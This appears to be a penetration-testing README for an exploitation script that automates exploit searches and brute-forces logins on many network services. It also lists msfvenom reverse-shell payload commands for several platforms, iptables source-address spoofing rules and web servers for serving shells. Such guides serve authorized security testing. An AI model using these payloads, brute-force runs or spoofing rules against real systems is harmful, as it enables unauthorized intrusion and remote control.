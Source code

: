 # Exploitation Phase

The goal of this phase is to penetrate the network. The findings from the Reconnaissance phase are used for this purpose. Techniques such as brute force or the exploitation of found vulnerabilities are used.

This environment variables controlled bash script serves as a tool for receiving some information that may be important for Exploitation Phase, including automatic exploit search or brute force passwords.

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP, AJP, Cassandra, CouchDB, FTP, IMAP, IRC, ISCSI, LDAP, Mongo, MySQL, OracleSQL, POP, PostgreSQL, RDP, Redis, Rexec, Rlogin, Rsh, Rsync, RTSP, SNMP, SMB, SMTP, SOCKS, MS-SQL Server, SSH, Telnet, VNC

## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
2. Adjust the conf file to your needs
3. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Search Exploits

Automatic approach:  

- Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase

Manual approach:

- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

If you have an EDB-ID, you can directly download an exploit with -m parameter:
```bash
searchsploit -m [EDB-ID]
# Example:
searchsploit -m 50689
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:

- nmap
- hydra
- searchsploit

## Adress Spoofing

Use a working network interface or an IP address that exists in the network.  

Create the following iptables rules for to change the source address:

```sh
# only for icmp packages
sudo iptables -t nat -A POSTROUTING -p icmp -j SNAT --to-source 192.168.1.13

# for all tcp/udp packages
sudo iptables -t nat -A POSTROUTING -j SNAT --to-source 192.168.1.13
```

Check for more information: https://sandilands.info/sgordon/address-spoofing-with-iptables-in-linux

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python2 -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
